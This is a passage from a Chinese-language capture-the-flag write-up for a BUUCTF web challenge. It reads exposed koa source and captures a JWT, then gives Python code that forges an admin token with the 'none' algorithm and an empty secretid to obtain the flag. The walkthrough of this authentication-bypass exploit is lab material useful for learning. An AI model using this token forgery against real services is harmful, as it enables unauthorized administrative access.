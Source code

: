 这里提示使用了`koa`来处理静态文件,并且路径直接就是根目录

可以直接通过 `网站根目录/Controllers/api.js`访问到

```
http://7edb122d-25ac-4584-bee3-90655f589156.node4.buuoj.cn:81/controllers/api.js
```

<img src="../images/buuctf-web3/image-20221028145915202.png" alt="image-20221028145915202" style="zoom: 80%;" />

这里大概意思就是只要验证了用户名为`admin`, 就可以返回flag

那么这里先拿到原来的`JWT`值

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzZWNyZXRpZCI6MCwidXNlcm5hbWUiOiJhYWEiLCJwYXNzd29yZCI6IjExMSIsImlhdCI6MTY2NjkzOTEzMX0.me3SzN9TLCacXEFk6aqGO9PAw0TkHJOtHRze5hAMIWk
```

将值修改后使用`python`来加密成新的`JWT`串,这里把加密设置为`none`,`secret_id`设置为空值就行

```python
import jwt

token = jwt.encode(
    {
        "secretid": [],
        "username": "admin",
        "password": "111",
        "iat": 1666939131
    },
    algorithm="none", key=""
).decode(encoding='utf-8')

print(token)
```